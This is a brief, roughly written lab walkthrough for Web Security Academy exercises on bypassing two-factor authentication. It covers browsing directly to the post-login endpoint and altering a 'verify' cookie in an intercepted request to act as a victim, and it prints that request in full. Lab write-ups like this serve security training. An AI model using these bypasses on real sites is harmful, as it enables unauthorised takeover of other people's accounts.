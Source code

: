 ## Direct bypass
Fuck the 2FA, just try to access the next endpoint directly (you need to know the path of the next endpoint).


## Ex 1
 
 1. Loging Account use username and password 
 2. Please enter your 4-digit security code 
 
  3. Check The Email and use the code and loging
  4. check the url parameter
  
         https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
         /my-account is end-point
         
 5. loging Vicatm Account and send the 4 digit code 

 6. This is Url in Vicatam account
 
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/login2
        
 7. And add the end-point parameter
 
        /my-account
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
 
 ## Finally Hack The Vicatam Account
 
 ## EX 2 2FA broken logic
 1.loging Account and intercept the request
 
    GET /login2 HTTP/1.1
    Host: acca1fb51e222ae1c096b0ee00130073.web-security-academy.net
    Cookie: verify=Asif; session=BbzscnaCtyy4b69XW8P9Q0JRlqLq8iMU
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Referer: https://acca1fb51e222ae1c096b0ee00130073.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close
    
 And Note Cookie: Verify username so change the username adn add the victom username and sand the request
 
 
 
